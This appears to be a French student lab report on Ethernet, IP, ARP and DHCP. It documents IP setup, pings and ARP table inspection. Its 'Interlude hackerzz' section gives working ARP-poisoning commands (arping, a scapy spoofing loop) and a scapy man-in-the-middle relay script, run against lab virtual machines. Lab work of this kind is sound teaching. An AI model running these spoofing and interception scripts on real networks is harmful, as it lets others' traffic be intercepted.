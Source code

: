 # TP2 : Ethernet, IP, et ARP
# I. Setup IP
🌞 **Mettez en place une configuration réseau fonctionnelle entre les deux machines**
```
$ sudo ip addr add 10.10.10.2/22 dev enp3s0
```
```
$ ip a

2: enp3s0:
    link/ether c0:18:50:0e:cb:bb
    inet 10.10.10.2/22
```
```
$ sipcalc 10.10.10.2/22

-[ipv4 : 10.10.10.2/22] - 0

[CIDR]
Network address		- 10.10.8.0
Network mask		- 255.255.252.0
Broadcast address	- 10.10.11.255
```
🌞 **Prouvez que la connexion est fonctionnelle entre les deux machines**
```
$ ping 10.10.10.3

PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_seq=1 ttl=128 time=2.47 ms
64 bytes from 10.10.10.3: icmp_seq=2 ttl=128 time=1.27 ms
64 bytes from 10.10.10.3: icmp_seq=3 ttl=128 time=1.33 ms
64 bytes from 10.10.10.3: icmp_seq=4 ttl=128 time=1.11 ms
^C
--- 10.10.10.3 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 1.105/1.542/2.471/0.542 ms

```
🌞 **Wireshark it**
 - Ping : type 8, code 0
 - Pong : type 0, code 0

[Paquets ICMP](./Trames/ping.pcapng)
# II. ARP my bro
🌞 **Check the ARP table**
```
$ ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 
10.10.10.3 dev enp3s0 lladdr e4:a8:df:c1:f9:9d STALE 
```
- MAC de la gateway : 00:c0:e7:e0:04:4e
- MAC du binôme : e4:a8:df:c1:f9:9d

🌞 **Manipuler la table ARP**
```
$ sudo ip n flush all  
```
```
$  ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 

```
```
$ ping 10.10.10.3
```
```
$ ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 
10.10.10.3 dev enp3s0 lladdr e4:a8:df:c1:f9:9d REACHABLE 

```
🌞 **Wireshark it**

[Trames ARP](./Trames/arp.pcapng)

# II.5 Interlude hackerzz
## 1 - ARP poisoning
- Eve :
```
$ ip a

3: eth1:
    link/ether 08:00:27:be:50:e2
    inet 192.168.56.104/24
```
- Alice :
```
$ ip a

2: enp0s8:
    link/ether 08:00:27:ff:10:b8
    inet 192.168.56.102/24
```
- Bob : 
```
$ ip a

2: enp0s8:
    link/ether 08:00:27:c6:94:50
    inet 192.168.56.103/24

$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 REACHABLE
```
- Depuis Eve : 
```
$ sudo sysctl net.ipv4.ip_nonlocal_bind=1

$ sudo arping -c 1000000 -U -S 192.168.56.102 -I eth1 192.168.56.103
```
- Depuis Bob : 
```
$ ip n s

192.168.56.102 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
```
[Pings](./Trames/arp_poisoning_1_ping.pcapng)
## 2 - Man in the middle
- ARP poisoning (arp_poisoning.py) : 
``` python 
from scapy.all import *

while 1:
    send(ARP(pdst = "192.168.56.102", psrc = "192.168.56.103", hwsrc = "08:00:27:be:50:e2"))
    send(ARP(pdst = "192.168.56.103", psrc = "192.168.56.102", hwsrc = "08:00:27:be:50:e2"))

```
- Man in the middle (mitm.py) : 
``` python
from scapy.all import *

# modifie et envoie les packets
def changer_dst(packet):
    if packet[Ether].dst == "08:00:27:be:50:e2": # si le mac du destinataire est celui d'eve
        # modifie l'adresse mac du destinataire en fonction de l'IP
        packet[Ether].dst = "08:00:27:ff:10:b8"*(packet[IP].dst == "192.168.56.102") + "08:00:27:c6:94:50"*(packet[IP].dst == "192.168.56.103")
        packet[Ether].src = "08:00:27:be:50:e2" # modifie l'adresse mac de l'expéditeur
        sendp(packet)

# Intercepte les packets
sniff(iface="eth0", filter = "icmp and host 192.168.56.103 and host 192.168.56.102", prn = changer_dst)

```
- Alice et Bob : 
```
[alice@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
```
```
[bob@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 REACHABLE
```
- Eve : 
```
sudo python Desktop/arp_poisoning.py
```
- Alice et Bob : 
```
[alice@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
192.168.56.104 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.103 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE

```
```
[bob@localhost ~]$ ip n s
192.168.56.100 dev enp0s8 lladdr 08:00:27:90:83:f3 STALE
192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
192.168.56.102 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.104 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
```
[Trames ARP poisoning](./Trames/arp_poisoning_py.pcapng)
- Eve : 
```
sudo python Desktop/mitm.py
```
- Alice et Bob : 
```
[alice@localhost ~]$ ping 192.168.56.103 -c 3

PING 192.168.56.103 (192.168.56.103) 56(84) bytes of data.
64 bytes from 192.168.56.103: icmp_seq=1 ttl=64 time=74.3 ms
64 bytes from 192.168.56.103: icmp_seq=2 ttl=64 time=68.1 ms
64 bytes from 192.168.56.103: icmp_seq=3 ttl=64 time=45.6 ms

--- 192.168.56.103 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 45.616/62.655/74.280/12.312 ms
```
[Pings d'Alice](./Trames/alice_pings.pcapng)
```
[bob@localhost ~]$ ping 192.168.56.102 -c 3

PING 192.168.56.102 (192.168.56.102) 56(84) bytes of data.
64 bytes from 192.168.56.102: icmp_seq=1 ttl=64 time=50.9 ms
64 bytes from 192.168.56.102: icmp_seq=2 ttl=64 time=62.3 ms
64 bytes from 192.168.56.102: icmp_seq=3 ttl=64 time=59.0 ms

--- 192.168.56.102 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 50.900/57.393/62.259/4.777 ms
```
[Pings de Bob](./Trames/bob_pings.pcapng)
# III. DHCP you too my brooo

🌞 **Wireshark it**

[Trames DHCP](./Trames/dhcp.pcapng)
- IP à utiliser : 
    trame 2, destinataire (10.33.16.230)
- Adresse IP de la passerelle réseau : 
    trame 2, option 3, routeur (10.33.19.254)
- Adresse d'un serveur DNS : 
    trame 2, option 6, Domaine Name Server (8.8.8.8 ; 8.8.4.4 ; 1.1.1.1)
